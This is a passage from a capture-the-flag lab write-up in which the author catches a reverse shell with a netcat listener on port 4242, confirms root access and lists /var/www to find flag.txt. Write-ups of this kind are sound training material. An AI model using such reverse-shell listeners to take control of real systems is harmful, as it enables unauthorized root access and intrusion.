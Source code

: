 Swapping back to netcat, the reverse shell has worked, I'm connected as root and can navigate to /var/www to get the flag.

```bash
$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.2.59.82] from (UNKNOWN) [10.10.183.187] 38954

$ whoami
root
$ cd /var/www/
$ ls -lash
total 28K
8.0K drwxr-xr-x 1 root root 4.0K Jul  3  2020 .
8.0K drwxr-xr-x 1 root root 4.0K Jul  3  2020 ..
4.0K -rw-r--r-- 1 root root   38 Jul  3  2020 flag.txt
8.0K drwxr-xr-x 1 root root 4.0K Jul  3  2020 html
```


